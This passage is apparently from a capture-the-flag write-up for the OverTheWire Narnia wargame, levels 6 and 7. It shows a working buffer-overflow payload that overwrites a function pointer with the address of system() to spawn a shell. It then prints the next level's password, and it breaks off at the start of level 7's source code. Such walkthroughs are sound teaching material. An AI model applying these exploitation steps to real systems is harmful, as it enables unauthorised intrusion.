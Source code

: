 ![Index html](/assets/images/narnia/06-1.png)

What we can do now is overwrite fp to point to the system() function from the stdlib. Below is how we can find the address of system():
```bash
pwndbg> p system
$1 = {int (const char *)} 0xf7dcd430 <__libc_system>
pwndbg> 
```
All we need to do now is pass in "sh;" to our system() call, which we can do easily since the program allows us to write to a buffer. Below is our final payload:
```bash
narnia6@gibson:/narnia$ ./narnia6 $(python3 -c 'import sys;sys.stdout.buffer.write(b"sh;" + b"A"*5 + b"\x30\xd4\xdc\xf7")') CCCC
```
We now have full control over the shell:
```bash
$ whoami
narnia7
$ cat /etc/narnia_pass/narnia7        
54RtepCEU0
```

### Narnia 07 Solution

Credentials: 54RtepCEU0

We're given a program that takes in user-input and prints out the addresses of some functions:
```bash
narnia7@gibson:/narnia$ ./narnia7 abc
goodfunction() = 0x80492ea
hackedfunction() = 0x804930f

before : ptrf() = 0x80492ea (0xffffd338)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
```
We're given the following source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdlib.h>
```